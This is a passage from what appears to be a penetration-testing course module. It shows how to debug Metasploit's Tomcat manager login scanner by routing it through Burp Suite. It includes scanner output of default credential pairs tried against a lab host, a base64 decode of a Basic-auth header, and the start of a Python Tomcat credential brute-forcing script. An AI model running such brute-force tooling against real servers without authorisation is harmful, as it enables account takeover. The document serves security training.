 <p>Let's say a particular Metasploit module (or another tool) is failing or not behaving the way we believe it should. We can always use Burp Suite or ZAP to proxy the traffic and troubleshoot. To do this, first, fire up Burp Suite and then set the <code>PROXIES</code> option like the following:</p>
<pre><code class="language-shell-session">msf6 auxiliary(scanner/http/tomcat_mgr_login) &gt; set PROXIES HTTP:127.0.0.1:8080

PROXIES =&gt; HTTP:127.0.0.1:8080


msf6 auxiliary(scanner/http/tomcat_mgr_login) &gt; run

[!] No active DB -- Credential data will not be saved!
[-] 10.129.201.58:8180 - LOGIN FAILED: admin:admin (Incorrect)
[-] 10.129.201.58:8180 - LOGIN FAILED: admin:manager (Incorrect)
[-] 10.129.201.58:8180 - LOGIN FAILED: admin:role1 (Incorrect)
[-] 10.129.201.58:8180 - LOGIN FAILED: admin:root (Incorrect)
[-] 10.129.201.58:8180 - LOGIN FAILED: admin:tomcat (Incorrect)
[-] 10.129.201.58:8180 - LOGIN FAILED: admin:s3cret (Incorrect)
[-] 10.129.201.58:8180 - LOGIN FAILED: admin:vagrant (Incorrect)
[-] 10.129.201.58:8180 - LOGIN FAILED: manager:admin (Incorrect)
[-] 10.129.201.58:8180 - LOGIN FAILED: manager:manager (Incorrect)
[-] 10.129.201.58:8180 - LOGIN FAILED: manager:role1 (Incorrect)
[-] 10.129.201.58:8180 - LOGIN FAILED: manager:root (Incorrect)
[-] 10.129.201.58:8180 - LOGIN FAILED: manager:tomcat (Incorrect)
[-] 10.129.201.58:8180 - LOGIN FAILED: manager:s3cret (Incorrect)
[-] 10.129.201.58:8180 - LOGIN FAILED: manager:vagrant (Incorrect)
[-] 10.129.201.58:8180 - LOGIN FAILED: role1:admin (Incorrect)
</code></pre>
<p>We can see in Burp exactly how the scanner is working, taking each credential pair and base64 encoding into account for basic auth that Tomcat uses.</p>
<p><img alt="image" src="https://academy.hackthebox.com/storage/modules/113/burp_tomcat.png"/></p>
<p>A quick check of the value in the <code>Authorization</code> header for one request shows that the scanner is running correctly, base64 encoding the credentials <code>admin:vagrant</code> the way the Tomcat application would do when a user attempts to log in directly from the web application. Try this out for some examples throughout this module to start getting comfortable with debugging through a proxy.</p>
<pre><code class="language-shell-session">[!bash!]$ echo YWRtaW46dmFncmFudA== |base64 -d

admin:vagrant
</code></pre>
<p>We can also use <a href="https://github.com/b33lz3bub-1/Tomcat-Manager-Bruteforce">this</a> Python script to achieve the same result.</p>
<pre><code class="language-python">#!/usr/bin/python

import requests
from termcolor import cprint
import argparse

parser = argparse.ArgumentParser(description = "Tomcat manager or host-manager credential bruteforcing")

parser.add_argument("-U", "--url", type = str, required = True, help = "URL to tomcat page")
parser.add_argument("-P", "--path", type = str, required = True, help = "manager or host-manager URI")
parser.add_argument("-u", "--usernames", type = str, required = True, help = "Users File")
parser.add_argument("-p", "--passwords", type = str, required = True, help = "Passwords Files")
